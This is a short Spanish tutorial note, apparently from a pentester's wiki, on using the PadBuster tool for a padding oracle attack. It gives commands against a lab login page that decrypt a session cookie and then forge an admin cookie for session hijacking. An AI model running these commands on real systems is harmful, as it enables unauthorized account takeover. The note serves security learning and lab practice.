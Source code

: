 Este es un [script](https://github.com/AonCyberLabs/PadBuster) en perl para la automatización de [[Padding Oracle Attack]].

Una vez que tengamos la herramienta solo basta con apuntar a la web  y unos parámetros para saber si es vulnerable.

	padbuster http://10.10.10.18/login.php cookie-session 8 -cookie "auth=cookie-session" -encoding 0

-8 *Numero de bloques del cifrado (descubrir por fuerza bruta)*

En caso de ser vulnerable se nos indicara por medio de una tabla, una vez iniciado estará intentando desencriptar los bloques en base a los bytes para saber como se esta computando dicho mensaje o bien la cookie-session.

	cookie-session = user=s4tisfacti0n

Y una vez sabiendo como se computa y que es lo que contiene la cookie-session podemos modificarla a nuestro criterio y generar una nueva cookie-session utilizando el mismo algoritmo de encriptación.

	padbuster http://10.10.10.18/login.php cookie-session 8 -cookie "auth=cookie-session" -encoding 0 -plaintext "user=admin"

Con esto obtendremos una cookie-session del usuario admin y aplicar un [[Cookie Hijaking]].




